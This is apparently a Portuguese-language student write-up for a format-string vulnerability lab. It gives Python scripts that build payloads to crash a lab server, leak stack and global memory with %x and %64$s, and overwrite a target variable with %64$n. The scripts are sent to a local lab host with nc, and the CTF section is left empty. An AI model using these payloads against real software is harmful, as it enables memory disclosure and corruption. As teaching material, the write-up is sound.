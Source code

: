 # Trabalho realizado na Semana #6

Para todas as tarefas utilizámos o método de guardar o *input* num ficheiro e
fornecê-lo ao servidor usando:
```
$ cat <file> | nc 10.9.0.5 9090
```
Sendo `<file>` o nome do ficheiro usado, no nosso caso: `badfile`.


## Tarefa 1

Como o objetivo nesta tarefa é *crashar* o programa, pensamos em aceder a endereços
de memória inválidos usando a *format-string* que vamos fornecer como input.  

Para tal decidimos usar:
```
%s%s%s%s
```
de forma a usar números que estão na *stack* como endereços de memória e tentar ler
*strings* nesses endereços. A quantidade de `%s` foi arbitrária e caso não causasse *crash*
à primeira tentativa, bastaria adicionar mais `%s` até um dos valores ser um endereço
inválido.  

*Program crash*:
![/imgs6/crash.png](/imgs6/crash.png)

(Nota: não foi *printed* `(ˆ_ˆ)(ˆ_ˆ) Returned properly (ˆ_ˆ)(ˆ_ˆ)`, o que indica que
o programa efetivamente *crashou*)


## Tarefa 2.A

Para obter o número de `%x` *format specifiers* para o programa dar *print* dos primeiros
4 *bytes* de input bastou fazer vários testes usando o seguinte *script* de *python*
para ajudar a gerar o *badfile*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

NUM = 64
fmt = ("AAAA" + "-%x"*NUM).encode('latin-1')

content[0:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

Decidimos usar `AAAA` como os primeiros 4 *bytes* de *input* sendo a sua codificação
em hexadecimal = `0x41414141`.  

`NUM` representa a quantidade de `%x` necessários.  
Inicialmente usámos 100:

```py
NUM = 100
```

E obtivémos o seguinte resultado no *server*:  
![/imgs6/x100.png](/imgs6/x100.png)

Aqui vimos que o `41414141` se encontrava já *printed* e foi só uma questão de acertar
o `NUM` até chegar ao `64`:  
![/imgs6/x64.png](/imgs6/x64.png)

```py
NUM = 64
```


## Tarefa 2.B

O objetivo é dar *print* de uma variável global do tipo *string*.
Para tal, é necessário:

1. Saber o endereço onde se encontra.
2. Colocar na stack o valor do endereço do ponto 1.
3. Aceder ao endereço e dar `print` da string aí encontrada.

O ponto `1.` é dado pelo *printout* do *server*:  
![/imgs6/secret_message_address.png](/imgs6/secret_message_address.png)

O ponto `2.` é efetuado fornecendo o endereço como *input* ao programa dado que
esse *input* é guardado num *buffer*.  

O ponto `3.` é feito fazendo *exploit* da vulnerabilidade detetada no `printf()`.

Assim, usámos de novo um *script* de *python* para gerar o `badfile` que vai servir como *input*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address = 0x080b4008
content[0:4] = (address).to_bytes(4, byteorder='little')

fmt = ("%64$s").encode('latin-1')
content[4:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

De notar que estamos a guardar o endereço `0x080b4008` no início e após isso usámos
o *format-specifier* `%64$s` de modo a dar print à *string* do suposto argumento 64 da 
`printf()`. (64 foi o número encontrado na [Tarefa 2.A](#tarefa-2.a) e que, usado desta forma,
faz com que seja usado o endereço dado nos primeiros 4 *bytes* do *input* como endereço da *string*
que se pretende dar *print*)

*Printout* do *server* onde é possível ver o conteúdo da *secret-message*:  
![/imgs6/secret_message.png](/imgs6/secret_message.png)


## Tarefa 3.A

Nesta tarefa o objetivo não é ler, mas escrever. Para tal, usando a mesma vulnerabilidade,
o *exploit* terá que ser feito usando o *format-specifier* `%n`.

Mais uma vez, primeiro é necessário saber o endereço onde se pretende escrever:  
![/imgs6/target_variable_address.png](/imgs6/target_variable_address.png)

Após isto, usámos novamente um *script* de *python* para gerar o *input*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address = 0x080e5068
content[0:4] = (address).to_bytes(4, byteorder='little')

fmt = ("%64$n").encode('latin-1')
content[4:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

Assim, foi colocado no início do *input* o endereço do *target* e de seguida foi passado o
*format-specifier* `%n` modificado (`%64$n`) para selecionar o 64.º suposto argumento de `printf()`,
que vai coincidir na *stack* com o início do nosso *input* guardado no *buffer* e que será usado como
endereço para guardar o número de caracteres escritos pelo `printf()` até ao momento.

*Printout* do *server* onde é possível ver que o *value* do *target* foi alterado:  
![/imgs6/target_variable_change.png](/imgs6/target_variable_change.png)


## Tarefa 3.B

A diferença desta tarefa para a anterior foi apenas na quantidade de caracteres aos quais
tivemos de dar print antes de usar o *format-specifier* `%n`.

Uma vez que é para alterar o *target* para `0x5000 = 20480`, e dado que
já são escritos 4 *bytes* devido ao endereço, torna-se necessário dar *print* a
mais `20480 - 4 = 20476` caracteres.

Uma vez mais, utilizamos um *script* de *python* para gerar o *input*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address = 0x080e5068
content[0:4] = (address).to_bytes(4, byteorder='little')

fmt = ("%20476x%64$n").encode('latin-1')
content[4:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

A única diferença relativamente ao *script* da [Tarefa 3.A](#tarefa-3.a) foi
a adição de `%20476x` antes do *format-specifier* que guarda a quantidade de caracteres
aos quais se deu *print*, de modo a imprimir um suposto 1.º argumento do `printf()` em
formato hexadecimal em `20476` caracteres com *leading spaces*.

*Printout* do *server* onde é possível ver que o *value* do *target* foi alterado para `0x5000`:  
![/imgs6/target_variable_change_0x5000.png](/imgs6/target_variable_change_0x5000.png)

De notar que foi efetivamente *printed* uma quantidade enorme de espaços seguida de um
valor hexadecimal de 4 *bytes*.


## CTF

### Desafio 1

### Desafio 2

























